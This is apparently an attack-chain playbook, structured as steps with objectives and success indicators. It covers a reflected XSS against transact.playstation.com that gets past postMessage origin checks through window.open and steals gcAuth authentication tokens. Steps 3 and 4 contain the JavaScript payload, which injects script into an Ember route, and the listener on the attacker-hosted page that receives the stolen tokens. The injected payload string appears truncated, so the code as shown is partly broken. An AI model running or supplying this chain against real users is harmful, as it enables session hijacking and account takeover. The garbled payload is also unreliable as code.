

# Reflected XSS via postMessage Bypass on PlayStation Transact Site Leading to Token Theft

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability on transact.playstation.com, bypassing postMessage origin checks via window.open, injecting malicious payloads into Ember.js routes, and stealing gcAuth tokens from authenticated sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with JavaScript console (e.g., Chrome DevTools)
- Local web server to host malicious HTML (e.g., Python's http.server)

### Target Environment

- Web platform
- Services: transact.playstation.com, id.sonyentertainmentnetwork.com
- Tech stack: JavaScript, Ember.js

### Initial Access Requirements

- Valid Sony Entertainment Network credentials for authentication
- Network access to PlayStation sites
- No prior access needed beyond login

## Detailed Attack Procedures

### Step 1: Establish Authenticated Session
procedure: [[procedures/Establish-Authenticated-Session-on-Sony-Entertainment-Network]]

**Objective**: Create an authenticated session on the Sony Entertainment Network to enable token access during exploitation.

**Instructions**: Navigate to the management page and log in with valid credentials. This sets up session cookies and localStorage for subsequent steps.

**Expected Output**: Successful login redirect to the dashboard, with authentication tokens in place.

**Success Indicators**:
- Login successful without errors
- Access to authenticated features confirmed

### Step 2: Host Malicious Page
procedure: [[procedures/Host-Malicious-HTML-Page-for-XSS-Exploitation]]

**Objective**: Prepare a malicious HTML page that triggers the exploit via user interaction.

**Instructions**: Create and host an HTML file at a location like https://aw.rs/ps4/xss1.html containing a button that runs the exploit script. Use a local server or public hosting for accessibility.

**Expected Output**: Malicious page loads with an interactive button.

**Success Indicators**:
- Page accessible via URL
- Button visible and clickable

### Step 3: Initiate XSS Exploit
procedure: [[procedures/Initiate-XSS-Exploit-via-Window-Open-and-postMessage]]

**Objective**: Bypass postMessage validation by opening the target in a new window and injecting the XSS payload.

**Instructions**: Visit the malicious page, click the button to execute the script. This opens transact.playstation.com in a new window, waits 5 seconds, and sends the crafted postMessage to replace the route with malicious model data.

Use [[commands/open-new-window-to-transact-site]] to open the window:

```javascript
win = window.open("https://transact.playstation.com/","transact");
```

Then wait with [[commands/async-wait-5-seconds]]:

```javascript
await new Promise((resolve)=>setTimeout(resolve,5000));
```

Finally, send the payload using [[commands/postmessage-inject-xss-payload]]:

```javascript
win.postMessage(JSON.stringify({action:"replaceRoute",route:"voucher.multi-product-details",model:{eligible:true,sku:{id:0,longDescription:`  window.opener.postMessage(JSON.stringify(gcAuth), "*"); '>`}}}),"*");
```

**Expected Output**: New window loads the target site, route changes, and XSS triggers without origin errors.

**Success Indicators**:
- Window opens successfully
- No postMessage errors in console
- Route replacement occurs

### Step 4: Exfiltrate Tokens
procedure: [[procedures/Exfiltrate-Authentication-Tokens-via-XSS-Payload]]

**Objective**: Execute the injected XSS to steal and send gcAuth tokens back to the attacker-controlled window.

**Instructions**: The payload's onerror handler runs automatically upon injection. Set up a listener on the malicious page using [[commands/setup-message-event-listener]] to receive the exfiltrated data:

```javascript
window.addEventListener("message",(msg)=>{ console.log("got message", msg); alert(msg.data); });
```

The XSS executes [[commands/retrieve-and-post-gcAuth-tokens]]:

```javascript
valkyrie.transact.preflightRunner.getPromise("gcAuth").then((gcAuth)=> window.opener.postMessage(JSON.stringify(gcAuth),"*"));
```

**Expected Output**: Tokens appear in console/alert on the malicious page.

**Success Indicators**:
- Message event fires with gcAuth data
- Tokens visible in alert or log

## Attack Chain Summary

### Key Achievements

1. Bypassed postMessage origin/referrer checks using window.open
2. Injected and executed XSS in Ember route's sku.longDescription
3. Stole gcAuth authentication tokens from victim's session
4. Enabled potential further attacks like session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
